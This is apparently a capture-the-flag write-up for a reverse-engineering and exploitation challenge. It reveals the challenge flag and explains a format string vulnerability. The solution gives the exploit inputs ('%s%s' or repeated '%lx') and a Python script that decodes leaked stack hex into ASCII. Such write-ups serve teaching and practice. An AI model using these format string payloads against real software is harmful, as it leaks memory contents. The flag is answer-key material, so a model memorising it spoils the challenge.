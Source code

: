 # A King, A Priest and A Rich Man

Category: RE/PWN

Author: Amogh Umesh

Answer / Flag: `MAZE{8UrN_7H3M_A11}`

## Problem Statement

Tyrion and Bronn are sitting in the library trying to find a way to save Kings Landing when they find a book which promises a way. Help Tyrion and Bronn unlock the secrets of the book to save Kings landing. 

## Relevant files / links

Source code(to be given to participants): https://drive.google.com/file/d/1ax-o9fQ1H-x2oqbcAeaTuQUuXlNl4gYo/view?usp=sharing \
Executable(to be given to participants): https://drive.google.com/file/d/1OrFjnUvYxiOJ7KXUKmZuMlktsTTQ7N-h/view?usp=sharing

## Hint

Find a way to pop the flag from function stack.

## Solution

Examining the code we find out that this is a format string specifier vulnerability. There are many ways to solve this question. Further examining code reveals
that there is not many items in the stack after the flag and since the flag is ASCII, we can use %s. Thus we can try one or more %s to check. Trying just a single %s 
will reveal the answer. This can be done or we can input multiple %lx and run a script to convert the resulting hex values to ASCII and print them out.\
Answer: "%s%s" or "%lx" + "-%lx"*50

Script for %lx:
```python
x = "" # insert the hex values outputted by program here
s = ""
for i in x.split('-'):
    if len(i) == 16:
        a = bytearray.fromhex(i)

        for b in reversed(a):
            if b > 32 and b < 128:
                s += chr(b)

# print string
print(s)
```
